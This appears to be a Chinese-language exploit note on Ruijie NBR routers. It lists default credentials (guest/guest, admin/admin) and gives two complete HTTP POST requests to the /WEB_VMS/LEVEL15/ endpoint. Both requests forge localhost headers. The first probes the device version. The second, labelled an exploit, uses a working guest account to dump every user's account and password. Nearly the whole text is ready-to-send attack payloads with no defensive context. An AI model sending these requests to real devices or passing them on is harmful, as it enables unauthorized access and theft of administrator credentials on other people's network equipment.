

锐捷
目录
锐捷 NBR路由器

默认密码
guest/guest 访客账户
admin/admin
版本探测
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host:
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
获取所有用户的账号密码
如果guest账户可用，可用如下exp获得所有用户的密码
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host:
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.